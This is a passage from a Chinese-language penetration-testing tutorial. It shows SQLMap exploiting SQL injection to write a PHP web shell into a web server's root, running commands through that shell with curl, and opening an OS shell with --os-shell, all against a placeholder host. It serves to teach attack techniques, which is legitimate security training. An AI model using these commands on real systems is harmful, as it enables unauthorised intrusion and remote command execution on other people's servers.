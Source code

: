 现在，让我们尝试将此文件写入远程服务器的 `/var/www/html/` 目录，这是 Apache 的默认服务器 Web 根目录。如果我们不知道服务器的 Web 根目录，我们将看到 SQLMap 如何自动找到它。


```bash
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
        ___
       __H__ ___ ___[']_____ ___ ___  {1.4.11#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 17:54:18 /2020-11-19/

[17:54:19] [INFO] resuming back-end DBMS 'mysql'
[17:54:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
do you want confirmation that the local file 'shell.php' has been successfully written on the back-end DBMS file system ('/var/www/html/shell.php')? [Y/n] y

[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)

[*] ending @ 17:54:28 /2020-11-19/
```

我们看到 `SQLMap` 确认文件确实被写入了：

```
[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)
```

现在，我们可以尝试访问远程 PHP shell 并执行一个示例命令：


```bash
curl http://www.example.com/shell.php?cmd=ls+-la
total 148
drwxrwxrwt 1 www-data www-data   4096 Nov 19 17:54 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...
```

我们看到我们的 PHP shell 确实被写入了远程服务器，并且我们对主机服务器拥有命令执行权限。

### 执行操作系统命令 

既然我们已经确认可以通过写入` PHP shell `来获得命令执行权限，我们可以测试 `SQLMap` 无需手动写入远程 shell 就能获得 `OS shell `的能力。`SQLMap` 利用各种技术通过 SQL 注入漏洞获取远程 shell，例如像我们刚才那样写入远程 `shell`，编写执行命令并检索输出的 SQL 函数，甚至使用一些直接执行` OS `命令的 `SQL` 查询，比如 `Microsoft SQL Server` 中的 `xp_cmdshell`。要使用 `SQLMap` 获取 `OS shell`，我们可以使用 `--os-shell` 选项，如下所示：

```bash
sqlmap -u "http://www.example.com/?id=1" --os-shell
        ___
       __H__ ___ ___[.]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 18:02:15 /2020-11-19/

[18:02:16] [INFO] resuming back-end DBMS 'mysql'
[18:02:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
```